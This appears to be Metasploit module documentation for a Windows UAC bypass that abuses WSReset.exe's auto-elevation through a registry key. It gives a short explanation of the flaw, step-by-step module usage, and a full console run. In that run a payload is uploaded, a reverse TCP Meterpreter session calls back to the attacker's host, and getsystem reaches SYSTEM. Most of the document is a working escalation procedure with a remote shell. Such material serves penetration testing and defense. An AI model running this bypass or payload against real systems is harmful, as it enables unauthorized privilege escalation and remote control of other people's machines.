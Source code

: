 ## Intro

This module exploits a flaw in the WSReset.exe Windows Store Reset Tool. The tool
is run with the "autoElevate" property set to true, and it will automatically
launch a file from a low-privilege registry location with elevated privileges.
To bypass, simply place the binary on disk, write its location in the
correct registry key, and run WSReset.exe.  The binary will be run with elevated
privileges. 

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_windows_store_reg`.
1. Set the `PAYLOAD` and configure it correctly.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenario

### Windows 10.0.17134.885 x64

```
msf5 exploit(windows/local/bypassuac_windows_store_reg) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] exploit_file = C:\Windows\System32\WSReset.exe
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Making Payload
[*] reg_command = C:\Windows\System32\cmd.exe /c start C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Making Registry Changes
[*] Registry Changes Complete
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\WSReset.exe
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe!
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 4 opened (192.168.135.168:4444 -> 192.168.132.125:49680) at 2019-09-04 17:01:46 -0500
[*] Removing Registry Changes
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : DESKTOP-3DKRD1E
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-3DKRD1E\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
